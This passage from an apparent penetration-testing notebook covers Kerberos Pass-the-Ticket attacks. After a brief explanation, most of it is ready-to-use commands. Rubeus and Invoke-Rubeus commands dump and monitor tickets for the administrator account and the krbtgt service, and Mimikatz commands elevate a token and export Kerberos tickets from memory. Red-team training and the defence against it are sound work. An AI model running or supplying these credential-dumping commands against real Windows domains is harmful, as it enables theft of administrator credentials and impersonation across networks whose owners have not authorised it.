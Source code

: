 If an attacker can gain access to this TGT, either by compromising the system or using other techniques, they can potentially use it to impersonate the user and access resources anywhere in the domain. This is known as a Pass-the-Ticket (PtT) attack.

In the image below, the Domain Administrator connected to the system through WinRM, and a TGT for this account can now be extracted from the system.

<figure><img src="../../../../.gitbook/assets/image (12) (1) (3).png" alt=""><figcaption></figcaption></figure>

## **Ticket Acquisition**

{% tabs %}
{% tab title="Rubeus Binary" %}
```bash
# Triage for existing tickets
Rubeus.exe triage

# Dump tickets for selected user,service or LUID
Rubeus.exe dump /nowrap /user:administrator
Rubeus.exe dump /nowrap /service:krbtgt
Rubeus.exe dump /nowrap /luid:0x6ee60

# Monitor for and dump new tickets
Rubeus.exe monitor interval:15 /nowrap
Rubeus.exe monitor interval:15 /nowrap /targetuser:administrator
```
{% endtab %}

{% tab title="Invoke-Rubeus" %}
```powershell
# Triage for existing tickets
Invoke-Rubeus -Command "triage"

# Dump tickets for selected user,service or LUID
Invoke-Rubeus -Command "dump /nowrap /user:administrator"
Invoke-Rubeus -Command "dump /nowrap /service:krbtgt"
Invoke-Rubeus -Command "dump /nowrap /luid:0x6ee60"

# Monitor for and dump new tickets
Invoke-Rubeus -Command "monitor interval:15 /nowrap"
Invoke-Rubeus -Command "monitor interval:15 /nowrap /targetuser:administrator"
```
{% endtab %}

{% tab title="Mimikatz Binary" %}
```bash
# Export tickets (Preferred Method (More Accurate))
mimikatz.exe "token::elevate" "sekurlsa::tickets /export"

# Alternative Method
mimikatz.exe "token::elevate" "kerberos::list /export"
```
{% endtab %}
